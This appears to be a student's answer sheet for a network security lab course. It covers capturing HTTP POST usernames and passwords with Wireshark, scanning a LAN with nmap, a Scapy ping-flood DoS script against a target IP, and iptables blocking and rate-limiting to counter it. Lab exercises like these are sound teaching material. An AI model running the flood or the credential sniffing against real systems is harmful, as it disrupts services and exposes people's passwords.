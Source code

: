 # MSEI 021

## Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.

## Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:
```bash 
sudo apt install nmap
```

Scan your LAN:
```bash 
sudo nmap -sn 192.168.1.0/24
```
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

```bash
sudo nmap -A -T4 192.168.1.0/24
```
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:
```bash
sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
```
(The results will be stored in network_report.txt.)

## Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

### Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

```python
from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")
```

### Part B: Display IPs Who Attempted the Attack

Monitor logs using:
```bash
sudo tail -f /var/log/syslog
```

Use iptables to track incoming traffic:
```bash
sudo iptables -L -n -v
```

### Part C: Prevent DDoS Using Firewall

Commands to Block IPs Using iptables:

1. Block specific attacking IP:

```bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP
```

2. Use rate limiting to mitigate attacks:

```bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
```

